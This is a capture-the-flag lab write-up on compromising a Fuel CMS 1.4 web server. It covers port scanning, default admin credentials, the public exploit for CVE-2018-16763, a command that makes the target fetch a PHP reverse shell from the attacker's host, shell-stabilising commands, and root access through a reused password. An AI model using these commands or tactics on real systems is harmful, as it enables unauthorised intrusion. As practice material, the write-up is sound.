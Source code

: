 ```yaml
---
sticker: lucide//flame
---
```

# ENUMERATION
---



## OPEN PORTS
---

| PORT | SERVICE |
| :--- | :------ |
| 80   | HTTP    |

```
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

# RECONNAISSANCE
---


We only got a website, let's check it out:



![](Pasted image 20250409164857.png)

We are dealing with something called `Fuel CMS` at version `1.4`, let's check `robots.txt` since the entrance is allowed:


![](Pasted image 20250409164943.png)


We got a `/fuel` directory:



![](Pasted image 20250409165010.png)

It takes us to a login page, if we take a deeper look at the main page, we can see this:

![](Pasted image 20250409165238.png)

Maybe default credentials still work, let's try:

![](Pasted image 20250409165313.png)

There we go, default credentials work, let's proceed to exploitation phase.



# EXPLOITATION
---


Since we already got access to the admin panel, we can start searching for a way to get a shell, for example, since we already know we are dealing with `Fuel CMS 1.4`, we can take a look for any exploit:


![](Pasted image 20250409165623.png)

We got a `RCE` exploit on GitHub, this exploits CVE-2018-16763, if we search this CVE, we can find this information:

```
Description

FUEL CMS 1.4.1 allows PHP Code Evaluation via the pages/select/ filter parameter or the preview/ data parameter. This can lead to Pre-Auth Remote Code Execution.
```


Let's download the exploit and test:

```
GITHUB: https://github.com/noraj/fuelcms-rce
```

![](Pasted image 20250409165739.png)

There we go, we got `RCE`, we can download a reverse shell file and put it into the machine like this: 

```
ruby exploit.rb http://10.10.172.18/ "wget+http://10.6.34.159:8000/thm_shell.php+-O+/var/www/html/shell.php"
```

We can see it gets downloaded:

![](Pasted image 20250409171154.png)

Now, we can simply visit:

```
http://IP/shell.php
```

If we got our listener ready, we'll see the connection:

![](Pasted image 20250409171256.png)



# PRIVILEGE ESCALATION
---


First step is to get a stable shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](Pasted image 20250409171335.png)

We can read first flag:

```
www-data@ubuntu:/home/www-data$ cat flag.txt
6470e394cbf6dab6a91682cc8585059b
```

I used `linpeas` and found this, since there are no `4000 SUID` binaries or other stuff like that, maybe this will do to get root:


![](Pasted image 20250409172944.png)

We got a password, let's switch to root:

![](Pasted image 20250409173005.png)

Yeah, they reused the password for the database with the same as the bash console, let's get root flag:

```
root@ubuntu:/home/www-data# cat /root/root.txt
b9bbcb33e11b80be759c4e844862482d
```


![](Pasted image 20250409173046.png)


